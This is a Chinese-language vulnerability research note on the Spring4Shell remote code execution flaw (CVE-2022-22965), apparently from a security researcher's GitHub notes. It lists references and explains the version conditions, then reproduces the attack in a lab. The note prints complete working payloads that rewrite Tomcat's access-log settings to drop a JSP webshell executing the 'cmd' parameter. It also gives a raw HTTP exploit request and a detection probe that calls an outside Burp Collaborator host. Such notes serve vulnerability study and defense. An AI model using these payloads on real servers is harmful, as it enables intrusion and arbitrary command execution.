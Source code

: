 参考：
- [Spring 框架漏洞集合](https://misakikata.github.io/2020/04/Spring-%E6%A1%86%E6%9E%B6%E6%BC%8F%E6%B4%9E%E9%9B%86%E5%90%88/)
- [Spring 全家桶各类 RCE 漏洞浅析](https://paper.seebug.org/1422/#_3)
- [spring actuator restart logging.config rce](https://landgrey.me/blog/21/)
- https://github.com/LandGrey/SpringBootVulExploit
- [Spring Boot Fat Jar 写文件漏洞到稳定 RCE 的探索](https://landgrey.me/blog/22/)
- [CVE-2021-22060: Additional Log Injection in Spring Framework (follow-up to CVE-2021-22096)](https://tanzu.vmware.com/security/cve-2021-22060)
- https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2022/CVE-2022-22965.yaml
- https://github.com/ax1sX/SpringSecurity


## Spring RCE
影响范围：
-  [2.5,2.5.6.SEC02)

### 无损检测
```
?class.module.classLoader.resources.context.configFile=http://j0kz86tl0wpygo1qh2lud49vvm1fp4.burpcollaborator.net/spring4shell&class.module.classLoader.resources.context.configFile.content.aaa=xxx
```
通过设置content，实现发起http请求的目的。

- https://xeldax.top/article/spring4shell_study

### FAQ

#### 为啥只能JDK9
> JDK1.8下测试，class bean下没有module bean，导致后续无法利用，如果是class.classLoader则会被黑名单拦截。

#### 为啥springboot不行
> JDK9 springboot下的，和springMVC的classloader不一样，是AppClassLoader，没有getResources()。springMVC是ParallelWebappClassLoader

## PoC
- https://github.com/craig/SpringCore0day/blob/main/exp.py
- https://github.com/lunasec-io/Spring4Shell-POC/blob/master/exploit.py


```
    headers = {"suffix":"%>//",
                "c1":"Runtime",
                "c2":"<%",
                "DNT":"1",
                "Content-Type":"application/x-www-form-urlencoded"

    }

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

准备复现，
刚从tomcat官网下了个tomcat-8.5.78: https://dlcdn.apache.org/tomcat/tomcat-8/v8.5.78/bin/apache-tomcat-8.5.78-windows-x64.zip

结果失败了，
![image](https://user-images.githubusercontent.com/30398606/161372147-431252a3-0a8e-472d-8ef9-1212d0781f1a.png)

```
Invalid property 'class.module.classLoader.resources' of bean class [java.lang.Module]: Could not instantiate property type [org.apache.catalina.WebResourceRoot] to auto-grow nested property path; nested exception is org.springframework.beans.BeanInstantiationException: Failed to instantiate [org.apache.catalina.WebResourceRoot]: Specified class is an interface
```

很快啊，原来是：
> Effectively disable the WebappClassLoaderBase.getResources() method as it is not used and if something accidently exposes the class loader this method can be used to gain access to Tomcat internals.

- https://tomcat.apache.org/tomcat-8.5-doc/changelog.html

所以目前的payload对于tomcat作为web容器的利用方式下，影响范围是：tomcat < 8.5.78

那就下载8.5.77:
- https://archive.apache.org/dist/tomcat/tomcat-8/v8.5.77/bin/apache-tomcat-8.5.77-windows-x64.zip

tomcat换了之后依然没有成功。
![image](https://user-images.githubusercontent.com/30398606/161372361-0c85d1ca-1a4a-46b1-862a-7c7c19156635.png)
可能因为我是直接在windows上双击startup.bat导致日志直接输出到控制台，而没有机会写入到文件？
原来是使用这个：https://github.com/craig/SpringCore0day/blob/main/exp.py
导致有个引号的bug吧。
![image](https://user-images.githubusercontent.com/30398606/161375232-2b243cef-2e90-415a-9320-b8f894b3ffef.png)


使用这个成功了：
https://github.com/lunasec-io/Spring4Shell-POC
```
POST /java-sec-code-1.0.0/login3 HTTP/1.1
Host: 192.168.183.129:8088
User-Agent: python-requests/2.20.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 698

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

![image](https://user-images.githubusercontent.com/30398606/161375660-ac8e4630-18e8-4046-ae9c-338b7a2110a8.png)


对应代码：
```java
    @RequestMapping("/login2")
    public void login2(@RequestBody User user) {
        System.out.println(user.getUsername());
        System.out.println(user.getPassword());
    }


    @RequestMapping("/login3")
    public void login3(User user) {
        System.out.println(user.getUsername());
        System.out.println(user.getPassword());
    }
```
其中login2这个endpoint要求请求的Content-Type是json类型。

注意在tomcat的conf/server.xml中必须要有：AccessLogValve这个Valve。
### 无损检测

![image](https://user-images.githubusercontent.com/30398606/169263864-c581fd76-2fc5-453e-a721-c971b8250cbd.png)
```
/java-sec-code-1.0.0/login3?class.module.classLoader.resources.context.configFile=http://j0kz86tl0wpygo1qh2lud49vvm1fp4.burpcollaborator.net/spring4shell&class.module.classLoader.resources.context.configFile.content.aaa=xxx&username=test
```


### Ref
- [CVE-2010-1622: Spring Framework execution of arbitrary code](https://seclists.org/fulldisclosure/2010/Jun/456)
- [Spring Framework - Arbitrary code Execution](https://www.exploit-db.com/exploits/13918)
- [Spring Core RCE 0day｜文末报告附件](https://mp.weixin.qq.com/s/P-NEJzUUjIyemkSe_RbicQ)
- https://github.com/spring-projects/spring-framework/commit/7f7fb58dd0dae86d22268a4b59ac7c72a6c22529
